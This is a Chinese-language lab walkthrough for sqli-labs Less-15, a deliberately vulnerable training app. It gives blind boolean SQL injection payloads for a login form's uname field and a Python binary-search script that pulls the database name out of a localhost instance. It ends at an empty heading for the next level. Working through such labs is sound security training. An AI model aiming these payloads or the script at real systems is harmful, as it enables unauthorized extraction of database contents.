 ##### 注入步骤

- 爆数据库长度：`passwd=1&submit=Submit&uname=1'or length(database())=8 #`判断数据库的长度，有回显，就说明数据库名正确
- 爆数据库名：`passwd=1&submit=Submit&uname=1' or ascii(substr(database(),1,1)) =115 #`爆数据库名的第一个字母。将右边的1改为2,3，等即为判断第2，第3个字母
- 爆表：`passwd=1&submit=Submit&uname=' or ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<113`
- 爆列：`passwd=1&submit=Submit&uname=' or ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 0,1),1,1))<113#`
- 爆数据：`passwd=1&submit=Submit&uname=' or ascii(substr((select concat(列1,0x3a,列2..) from 表名 limit 0,1),1,1))<113#`

#### python脚本（布尔型）

```python
import requests
from bs4 import BeautifulSoup
def result(a,b):#二分法
    if (a+b)%2==0:
        return (a+b)/2
    else:
        return (a+b-1)/2
url = "http://localhost/sqli/Less-15/"#url
left=65
mid=94
right=123
while True:
    #payload
    data = {"passwd":"1","submit":"Submit","uname":"passwd=1&submit=Submit&uname=1' or ascii(substr(database(),1,1)) >%d #"%mid}
    req = requests.post(url, data=data)#采用post方式提交
    #获取图片的路径
    bs = BeautifulSoup(req.text,"lxml")
    da=bs.select('img')
    if da[0]['src'] =='../images/flag.jpg':#根据图片的src名字来判断
        left = mid	#二分法
        mid=result(right,mid)
    else:		#二分法
        right = mid
        mid=result(left,mid)
    if right == mid or left == mid:
        print(chr(int(right))) if right > left else print(chr(int(left)))
        break
```



## less-16

##### 注入类型

##### 注入点
